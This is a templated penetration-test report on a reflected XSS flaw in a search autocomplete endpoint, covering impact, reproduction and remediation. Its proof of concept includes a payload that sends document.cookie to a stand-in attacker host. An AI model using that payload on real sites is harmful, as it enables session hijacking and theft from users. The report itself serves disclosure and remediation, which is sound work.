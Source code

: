 # Penetration Testing Writeup: XSS in Search Autocomplete

## Executive Summary

A Reflected Cross-Site Scripting (XSS) vulnerability was found in [Target
Application]’s search autocomplete feature during a penetration test. This
allows attackers to inject scripts via the autocomplete query, compromising user
security. This report details the issue and remediation steps.

## Vulnerability Details

- **Vulnerability Type**: Cross-Site Scripting (XSS) - Reflected
- **Severity**: High
- **Affected Component**: Search autocomplete endpoint
- **CWE**: CWE-79 (Improper Neutralization of Input During Web Page Generation)
- **Location**: `https://[target-application]/autocomplete?term=[input]`
- **Discovered By**: [PenTester Name]
- **Date Discovered**: August 28, 2025

### Description

The autocomplete endpoint reflects user input in the response without
sanitization, allowing script injection that executes in the browser.

### Impact

- **Session Theft**: Cookies can be stolen.
- **Phishing**: Fake forms can capture credentials.
- **Data Leakage**: Autocomplete data can be exfiltrated.
- **Defacement**: Page content can be altered.

### Proof of Concept

1. Visit:
   `https://[target-application]/autocomplete?term=<script>alert('XSS');</script>`.
2. Observe an alert box.
3. Malicious payload:
   `<script>fetch('https://attacker.com/steal?cookie='+document.cookie);</script>`.

### Steps to Reproduce

1. Navigate to the search page.
2. Enter `<script>alert('XSS');</script>` in the autocomplete field.
3. Trigger the autocomplete and confirm the alert.

## Remediation Recommendations

1. **Input Validation**:
   - Restrict autocomplete inputs to safe characters.
2. **Output Encoding**:
   - Encode outputs before rendering.
3. **Content Security Policy**:
   - Use CSP: `Content-Security-Policy: script-src 'self';`.
4. **Secure Coding**:
   - Train developers on XSS prevention.
5. **Security Testing**:
   - Perform regular audits.

## Conclusion

The XSS vulnerability in [Target Application]’s autocomplete feature requires
urgent remediation to protect users.

## References

- OWASP XSS Prevention Cheat Sheet:
  https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html
- CWE-79: https://cwe.mitre.org/data/definitions/79.html

![Autocomplete XSS Example](https://example.com/images/autocomplete-xss-example.png)
